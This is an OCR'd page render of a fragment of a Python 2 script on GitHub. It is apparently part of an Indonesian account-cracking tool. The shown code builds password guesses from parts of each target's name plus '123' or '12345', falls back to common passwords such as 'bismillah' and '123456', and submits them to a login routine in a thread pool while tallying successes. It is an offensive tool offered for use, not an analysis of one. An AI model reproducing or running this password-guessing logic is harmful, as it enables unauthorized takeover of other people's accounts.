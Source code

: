                         elif len(xz) == 3:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                                xz[2]+'123', xz[2]+'12345',
                            ]
                        elif len(xz) == 4:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                                xz[2]+'123', xz[2]+'12345',
                                xz[3]+'123', xz[3]+'12345',
                            ]
                        else:
                            raimuuu = [
                                'sayang', 'anjing',
                                'bismillah', '123456'
                            ]
                        __yayanXD__.submit(self.__mfb__, bb[0], raimuuu)
                    except:
                        pass

            os.remove(self.apk)
            hasil(ok,cp)

        else:
            print '\n %s[%s×%s] input yang bener'%(N,M,N);self.__pler__()

if __name__ == '__main__':
    os.system('git pull')
    moch_yayan()
© 2021 GitHub, Inc.

